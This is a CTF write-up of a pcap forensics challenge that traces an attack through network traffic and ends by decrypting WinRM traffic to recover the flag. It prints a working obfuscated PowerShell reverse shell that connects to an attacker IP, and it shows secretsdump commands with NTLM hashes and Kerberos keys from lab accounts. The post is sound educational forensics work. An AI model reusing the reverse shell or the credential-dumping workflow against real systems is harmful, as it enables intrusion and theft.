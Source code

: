 # Keep the Steam Activated

The description for this challenge is as follows:

*The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!*

The challenge was rated at 3 out of 4 stars, and it was worth 450 points at the end with a total of 14 solves.The downloadables for this challenge included a single pcap file. This was a reasonably difficult forensics challenge that included skills like pcap analysis, obfuscated powershell script analysis, and decoding encrypted protocols using scripts.

**TL;DR Solution:** Extract 


## Extracting NTLM Hashes

Firstly, one good initial step when dealing with pcap files is to check if any files were transferred over HTTP, since Wireshark provides an easy option for the extraction of such files. Simply go to File > Export Objects > HTTP. The files that seemed especially relevant here were called rev.ps1, n.exe, and drop.ps1. As a result, I saved all of them for further analysis.

![wireshark_file_extraction](/home/knittingirl/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam/wireshark_file_extraction.png)

The rev.ps1 file was relatively obfuscated, as shown below. However, one piece of obfuscated text that stands out is "(("{0}{1}{2}" -f '192.168','.1','.9'),4443)". This appears to be targetting the attacker machine's IP address of 192.168.1.9, on what we can assume is port 4443.
```
sv ('8mxc'+'p')  ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = (  (  vaRIaBle ('8MXC'+'P')  -ValUe  )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```
If I use the filter "tcp.port == 4443" in Wireshark, I can see that there is a lot of TCP traffic here. If I right-click one of these packets and select Follow > TCP stream, I can view a plaintext representation of the conversation that occurred over these packets. Of particular interest is the fact that the files ntds.dit and the SYSTEM hive seem to have been encoded in base 64, then transferred back to the attacker machine using port 8080 with the n.exe file. As a side-note, I determined that n.exe seems to be a version of netcat by simply uploading it to VirusTotal.

![system_ntds_transfer_conversation](/home/knittingirl/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam/system_ntds_transfer_conversation.png)

Now I can use the filter "tcp.port == 8080" and follow the conversations again like described above. There are two separate conversations, both of which seem to be base64 strings with "-----BEGIN CERTIFICATE-----" at the top and "-----END CERTIFICATE-----" at the end. 

![ntds_b64encoded](/home/knittingirl/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam/ntds_b64encoded.png)

I decoded both files by using the base64 utility in the Linux command line. The workflow here is to use the "Save as" option at the bottom of the followed TCP window to save a text file version of each stream, open the files up in a text editor to cut of the plaintext certificate lines, then run them through the base64 utility while piping the outputs to appropriately named files. Now I just need to figure out where to go from here.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode ntds_b64_stream > ntds.dit
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode system_b64_stream > system.hive
```
## Deriving NTLM Hashes

Obviously, there is a lot of information in both the ntds.dit and SYSTEM hive files, so I decided to focus on what I could derive if given both simultanoeously. After a bit of research, I found that it is a reasonably common strategy to rip these files from a system in order to extract NTLM hashes for Domain users. Impacket has a script that can automatically extract these hashes called secretsdump.py; my Kali Linux machine seems to have the script already, but you could also download it from the github at https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py. The actual command to dump the hashes is relatively straightforward, as is the process of parsing the results:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x406124541b22fb571fb552e27e956557
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9da98598be012bc4a476100a50a63409
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8bb1f8635e5708eb95aedf142054fc95:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP-DC$:1000:aad3b435b51404eeaad3b435b51404ee:94d5e7460c75a0b30d85744f633a0e66:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9555398600e2b2edf220d06a7c564e6f:::
CORP.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
CORP.local\jdoe:1104:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
WS01$:1105:aad3b435b51404eeaad3b435b51404ee:cd9c49cc4a1a535d27b64ab23d58f3e6:::
WS02$:1106:aad3b435b51404eeaad3b435b51404ee:98c3974cacc09721a351361504de4de5:::
CORP.local\asmith:1109:aad3b435b51404eeaad3b435b51404ee:acbfc03df96e93cf7294a01a6abbda33:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6e5d1ccb7642b4bf855975702699f733034916dbd04bf4acddc36ac273b3f578
Administrator:aes128-cts-hmac-sha1-96:8d5709c4a7cab2e0f5fbb4a069b283fb
Administrator:des-cbc-md5:e302c7793b58ae97
CORP-DC$:aes256-cts-hmac-sha1-96:9c888129432a87257f81f6bb6affd91bc3b0ba9cf20e94ef9216364d79aab5bd
CORP-DC$:aes128-cts-hmac-sha1-96:0ac3c714050469724e5c41d21f7f86d3
CORP-DC$:des-cbc-md5:57497ce6972613da
krbtgt:aes256-cts-hmac-sha1-96:85c670ece27dad635c28630454154bb325b644b8f61d44f802b80c39277f529e
krbtgt:aes128-cts-hmac-sha1-96:15bfbb6b827c1904e49d77bf7624c2f4
krbtgt:des-cbc-md5:a2074373b920515d
CORP.local\fcastle:aes256-cts-hmac-sha1-96:c6319d38d781e145161c4b1a4ef11d08ad9be36c43b173b355f78c2cf2edf15a
CORP.local\fcastle:aes128-cts-hmac-sha1-96:144565c25d70678535b2908983d74f6e
CORP.local\fcastle:des-cbc-md5:6b0b2f01a731a78f
CORP.local\jdoe:aes256-cts-hmac-sha1-96:9d74074381d0000525c1cfbb24c2943e28bf415b89c8cf958eae5add39614ac8
CORP.local\jdoe:aes128-cts-hmac-sha1-96:7e0fb5fa7dcfa50ea0a8a55e08b63f74
CORP.local\jdoe:des-cbc-md5:610e67019e9b68ab
WS01$:aes256-cts-hmac-sha1-96:ccc215ff3ac06dc3e206f6e55cd1512f3bb00311d02c77591f3cb08e01d5a40f
WS01$:aes128-cts-hmac-sha1-96:5e94401d7da953a13d42809340ff6ec3
WS01$:des-cbc-md5:9885ea642f268ab3
WS02$:aes256-cts-hmac-sha1-96:dc3f081be6c29532904a073124a0998d857667cc5c531fcbe0f6d3e46d40eac2
WS02$:aes128-cts-hmac-sha1-96:7e494ea36b4fb80670f807a8c72e7b3d
WS02$:des-cbc-md5:b58a08dc9eabbc0d
CORP.local\asmith:aes256-cts-hmac-sha1-96:57e22c0b740ed35935f82a6e34ab84a683437105a4ab2f1f3ba70962d5c53112
CORP.local\asmith:aes128-cts-hmac-sha1-96:392a638579d925cca9e4ef7965b9dcdd
CORP.local\asmith:des-cbc-md5:839bd6e9380e40f7
[*] Cleaning up... 
```
By googling the NT hashes, I was able to determine that asmith's plaintext password was Summer2020, but I have not determined the passwords for the other users.

### SMB Decryption Rabbit Hole

I spent several hours attempted to decrypt the encrypted SMB3 traffic at the beginning of the capture. I will not go into much detail about that here, but if anyone is interested, this writeup provides the best description of how to decrypt this traffic, and I used it extensively in these attempts: https://medium.com/maverislabs/decrypting-smb3-traffic-with-just-a-pcap-absolutely-maybe-712ed23ff6a2

## Decrypting the Winrm Traffic

When you view the traffic immediately after the bas64 encoded SYSTEM hive has finished transmitting over port 8080, you can see encrypted winrm traffic that can hopefully be decrypted to view the flag.

![winrm_traffic](/home/knittingirl/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam/winrm_traffic.png)

I was able to find a script online that can purportedly decrypt winrm traffic if given the NT  hash of the password, which seems perfect given what we have. However, when I attempted to run it, it failed. Ultimately, the issue seems to have come down to a failure to properly parse the pcap capture data as bytes. A team member made adjustments on line 208, where "include_raw=True, use_json=True" was added, and line 248, where "file_data = cap.http.file_data.binary_value" was changed to "file_data = cap.http.file_data_raw[0].binary_value". The output was very long, and it started like this: 
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ python3 winrm_decoder_edited.py -n 8bb1f8635e5708eb95aedf142054fc95 capture.pcap 
No: 21358 | Time: 2021-11-05T07:04:51.144128 | Source: 192.168.1.9 | Destination: 192.168.1.10
<?xml version="1.0" ?>
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:env="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:b="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:x="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:cfg="http://schemas.microsoft.com/wbem/wsman/1/config">
	<env:Header>

```
I ended up piping this output to a "winrm_decoded.txt" file and grepping for flag-like results. At an initial glance, I noticed that there seemed to be a lot of powershell commands obfuscated with base64 that could contain a plaintext flag. Base64 encoding depends on offset, so as a I was attempting to grep for the flag, I tried encoding aHTB{ and got YUhUQns=. The first two characters seem dependant on the a, so if I just grep for some of the middle characters, I get:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ cat winrm_decoded.txt | grep hUQn
			<rsp:Stream Name="stdout" CommandId="8937D38B-70EB-44FB-84C5-DB5752DA7E67">AAAAAAAAABoAAAAAAAAAAAMAAABeAQAAAAQQBACzrAetdF3OT7duxmQ4O6Yxi9M3ietw+0SExdtXUtp+Z++7vzxTPkhUQntuMHRoMW5nXzFzX3RydTNfM3Yzcnl0aDFuZ18xc19kM2NyeXB0M2R9PC9TPg==</rsp:Stream>
```
If I then go ahead and decode this base64 string, I get:
```
....................^........³¬..t]ÎO·nÆd8;¦1.Ó7.ëpûD.ÅÛWRÚ~gï»¿<S>HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}</S>
```
Thanks for reading!
